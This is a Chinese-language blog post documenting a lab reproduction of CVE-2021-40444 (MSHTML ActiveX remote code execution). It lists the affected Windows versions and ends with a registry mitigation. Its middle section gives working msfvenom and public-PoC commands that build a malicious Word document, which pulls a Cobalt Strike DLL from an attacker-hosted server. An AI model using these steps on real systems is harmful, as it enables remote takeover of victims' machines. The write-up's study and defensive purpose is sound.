




# CVE-2021-40444 MSHTML RCE 学习 - renblog - 博客园

> 原文：[`www.cnblogs.com/renhaoblog/p/15319766.html`](https://www.cnblogs.com/renhaoblog/p/15319766.html)

# 影响范围

Windows Server, version 20H2 (Server Core Installation)
Windows Server, version 2004 (Server Core installation)
Windows Server 2022 (Server Core installation)
Windows Server 2022
Windows Server 2019 (Server Core installation)
Windows Server 2019
Windows Server 2016 (Server Core installation)
Windows Server 2016
Windows Server 2012 R2 (Server Core installation)
Windows Server 2012 R2
Windows Server 2012 (Server Core installation)
Windows Server 2012
Windows Server 2008 for x64-based Systems Service Pack 2 (Server Core installation)
Windows Server 2008 for x64-based Systems Service Pack 2
Windows Server 2008 for 32-bit Systems Service Pack 2 (Server Core installation)
Windows Server 2008 for 32-bit Systems Service Pack 2
Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
Windows Server 2008 R2 for x64-based Systems Service Pack 1
Windows RT 8.1
Windows 8.1 for x64-based systems
Windows 8.1 for 32-bit systems
Windows 7 for x64-based Systems Service Pack 1
Windows 7 for 32-bit Systems Service Pack 1
Windows 10 for x64-based Systems
Windows 10 for 32-bit Systems
Windows 10 Version 21H1 for x64-based Systems
Windows 10 Version 21H1 for ARM64-based Systems
Windows 10 Version 21H1 for 32-bit Systems
Windows 10 Version 20H2 for x64-based Systems
Windows 10 Version 20H2 for ARM64-based Systems
Windows 10 Version 20H2 for 32-bit Systems
Windows 10 Version 2004 for x64-based Systems
Windows 10 Version 2004 for ARM64-based Systems
Windows 10 Version 2004 for 32-bit Systems
Windows 10 Version 1909 for x64-based Systems
Windows 10 Version 1909 for ARM64-based Systems
Windows 10 Version 1909 for 32-bit Systems
Windows 10 Version 1809 for x64-based Systems
Windows 10 Version 1809 for ARM64-based Systems
Windows 10 Version 1809 for 32-bit Systems
Windows 10 Version 1607 for x64-based Systems
Windows 10 Version 1607 for 32-bit Systems

# 漏洞概述

2021 年 9 月 8 日，微软发布安全通告披露了 Microsoft MSHTML 远程代码执行漏洞，攻击者可通过制作恶意的 ActiveX 控件供托管浏览器呈现引擎的 Microsoft Office 文档使用，成功诱导用户打开恶意文档后，可在目标系统上以该用户权限执行任意代码，微软在通告中指出已检测到该漏洞被在野利用，请相关用户采取措施进行防护。

MSHTML(又称为 Trident)是微软旗下的 Internet Explorer 浏览器引擎，也用于 Office 应用程序，以在 Word、Excel 或 PowerPoint 文档中呈现 Web 托管的内容，AcitveX 控件是微软 COM 架构下的产物，在 Windows 的 Office 套件、IE 浏览器中有广泛的应用，利用 ActiveX 控件即可与 MSHTML 组件进行交互。

# 漏洞学习

*   攻击鸡：kali 192.168.2.103
*   靶机 Microsoft Windows 10 专业工作站版 OS 版本: 10.0.18362 暂缺 Build 18362 192.168.2.143
    [POC 下载](https://github.com/lockedbyte/CVE-2021-40444)
    1、生成远控 dll

（1）CS 设置本地监听，生成 RAW



（2）msf 生成 dll

```
msfvenom -p generic/custom PAYLOADFILE=./payload.bin -a x64 --platform windows -f dll -o shell.dll 
```

2、利用 POC 将 dll 加载到 word

```
python3 exploit.py generate shell.dll http://192.168.2.103 
```


3、本地开启监听

```
python3 exploit.py host 80 
```

4、靶机运行 word，CS 上线



# 漏洞修复

创建一个 reg 文件，输入以下内容并且执行

```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\0]
"1001"=dword:00000003
"1004"=dword:00000003

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\1]
"1001"=dword:00000003
"1004"=dword:00000003

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\2]
"1001"=dword:00000003
"1004"=dword:00000003

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\3]
"1001"=dword:00000003
"1004"=dword:00000003 
```